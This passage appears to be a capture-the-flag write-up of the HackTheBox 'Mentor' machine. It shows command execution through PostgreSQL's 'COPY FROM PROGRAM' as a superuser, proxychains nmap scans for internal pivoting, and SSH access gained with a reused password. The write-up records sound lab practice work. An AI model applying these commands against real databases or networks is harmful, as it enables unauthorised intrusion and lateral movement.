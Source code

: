 ```sql
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)
```

Here's another cool trick on postgress from the ippsec video  
```sql
DROP table cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM program 'ls -la';
SELECT * FROM cmd_exec;
DELETE FROM cmd_exec WHERE cmd_output IS NOT NULL;
OP table cmd_exec;
```
```sql
This works because we're unning as superuser, in our case that would give us exec on the postgres container. but if the DB was on the host. that could have been interesting 
```sql
\du
                                   List of roles
 Role name |                         Attributes                         | Member of
-----------+------------------------------------------------------------+-----------
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
```

using the socks proxy to scan the environment
```bash
proxychains -q nmap --min-rate 10000 127.0.0.1 -oN scans/nmap.alpine
PORT     STATE SERVICE
8000/tcp open  http-alt
```
```bash
proxychains -q nmap --min-rate 10000 172.22.0.1 -oN scans/nmap.alpine-host
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-12 10:21 GMT
Nmap scan report for 172.22.0.1
Host is up (0.100s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
81/tcp   open  hosts2-ns
5432/tcp open  postgresql
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 102.62 seconds
```

The password we got from `svc_acc` works with the `svc` user over ssh  

We're now the svc user on the actual host, and as we knew already, it's running docker, but our user doesn't have access:
```bash
svc@mentor:~$ netstat -tulpen
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      102        29979      -
tcp        0      0 172.22.0.1:81           0.0.0.0:*               LISTEN      0          36638      -
tcp        0      0 172.22.0.1:5432         0.0.0.0:*               LISTEN      0          34661      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          32752      -
tcp        0      0 127.0.0.1:42789         0.0.0.0:*               LISTEN      0          33910      -
```
